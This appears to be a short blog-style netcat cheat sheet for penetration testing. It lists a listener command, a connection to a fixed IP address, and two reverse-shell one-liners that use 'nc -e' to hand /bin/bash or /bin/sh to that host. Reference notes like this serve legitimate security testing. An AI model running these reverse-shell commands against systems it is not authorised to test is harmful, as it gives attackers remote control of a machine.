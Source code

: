 +++
title = 'Cheat Sheet - Netcat'
date = 2023-01-15T09:00:00-07:00
draft = false
tags = ['cheatsheet', 'networking']
+++

Some useful examples of netcat command that could be used for pentesting

<!--more-->

## Useful commands

```shell
# start a listening server
nc -lvp 4444

# connect to the server
nc 91.134.137.25 4444
# connect to the server with bash or shell
nc -e /bin/bash 91.134.137.25 4444
nc -e /bin/sh 91.134.137.25 4444
```
